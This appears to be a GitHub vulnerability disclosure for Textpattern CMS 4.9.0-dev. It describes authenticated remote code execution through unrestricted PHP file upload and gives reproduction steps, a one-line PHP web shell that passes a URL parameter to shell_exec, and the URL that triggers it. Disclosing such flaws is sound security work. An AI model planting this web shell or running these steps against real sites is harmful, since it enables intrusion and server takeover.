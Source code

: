 # TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload
Textpattern version 4.9.0 is vulnerable to Remote Code Execution (RCE) due to the file upload functionality allowing unrestricted PHP file uploads, potentially leading to remote code execution.

<B>Vulnerable URL:</B><br> 
http://localhost/textpattern/textpattern/index.php?event=file&step=file_insert<br> 

<B>Reproduction:</B><br> 
1. Log in as the root user in Textpattern.<br> 
2. Create a PHP web shell by making a file named rce.php with the content `</?php echo shell_exec($_GET['cmd']); ?>` .<br> 
3. Navigate to 'Content > Files' and upload the rce.php web shell.<br>
    ![alt text](https://github.com/patrickdeanramos/TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload/blob/main/RCE-TextPatter-1.png?raw=True)
5. Access the web shell directly by going to https://<url>/textpattern/files/rce.php?cmd=id.<br> 
6. You can now interact with the web shell and execute commands using this `cmd=id`.<br>
   ![alt text](https://github.com/patrickdeanramos/TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload/blob/main/RCE-TextPattern-2.png?raw=True)

<B>Authors:</B><br> 
Patrick Dean Ramos<br> 
Nathu Nandwani<br> 
Junnair Manla<br> 
Kevin Rosales<br> 
Steve Nyan<br> 
Shanavas Shakeer<br> 
Lani Lambert<br> 

